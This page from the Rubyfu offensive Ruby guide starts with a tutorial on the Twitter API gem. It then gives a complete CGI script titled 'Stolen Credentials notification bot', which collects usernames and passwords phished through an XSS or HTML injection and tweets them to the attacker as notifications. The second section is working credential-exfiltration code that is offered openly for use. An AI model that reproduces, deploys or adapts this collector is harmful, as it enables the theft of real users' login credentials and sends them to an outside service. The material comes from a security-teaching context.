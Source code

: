 # Twitter API
Dealing with twitter API's s really useful due information gathering, taxonomy and social engineering. However, you have to have some keys and tokens in-order to interact with twitter APIs. To do so, please refer to the official [twitter development page][1].



- To install twitter API
```
gem install twitter
```

## Basic Usage
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user 
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```
![](webfu__twitterAPI1.png)


**Your turn**, tweet to @Rubyfu using above example, no cheating ;).

## Building Stolen Credentials notification bot
We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script][2] that takes that stolen credentials then tweet these credentials to us as notification or log system
```ruby
#!/usr/bin/ruby -w                                                                 

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Refere!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```






[1]: https://dev.twitter.com/oauth/overview
[2]: http://rubyfu.net/content/module_0x4__web_kungfu/index.html#cgi
